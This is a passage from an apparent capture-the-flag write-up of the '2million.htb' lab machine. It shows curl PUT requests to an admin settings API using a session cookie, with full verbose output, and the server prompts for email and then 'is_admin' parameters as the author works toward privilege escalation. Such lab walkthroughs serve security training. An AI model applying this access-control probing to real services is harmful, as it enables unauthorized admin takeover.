 ```bash
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
{ [67 bytes data]
100 58 0 56 100 2 311 11 --:--:-- --:--:-- --:--:-- 324
* Connection #0 to host 2million.htb left intact
{
"status": "danger",
"message": "Missing parameter: email"
}
```

Interesting, it seems we are missing an email parameter in the previously sent data.

Let's add the email we used during our registration to the data body.

```bash
curl -v -X PUT -d '{"email": "mr007@mail.com"}' -H "Content-Type: application/json" http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314" | jq
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.159.192
* Trying 10.129.159.192:80...
* Connected to 2million.htb (10.129.159.192) port 80
* using HTTP/1.x
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.14.1
> Accept: */*
> Cookie: PHPSESSID=6rpp80g8sueusjtr6fgeqd5314
> Content-Type: application/json
> Content-Length: 27
>
} [27 bytes data]
* upload completely sent off: 27 bytes
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sun, 10 Aug 2025 16:17:50 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
{ [70 bytes data]
100 86 0 59 100 27 322 147 --:--:-- --:--:-- --:--:-- 472
* Connection #0 to host 2million.htb left intact
{
"status": "danger",
"message": "Missing parameter: is_admin"
}
```
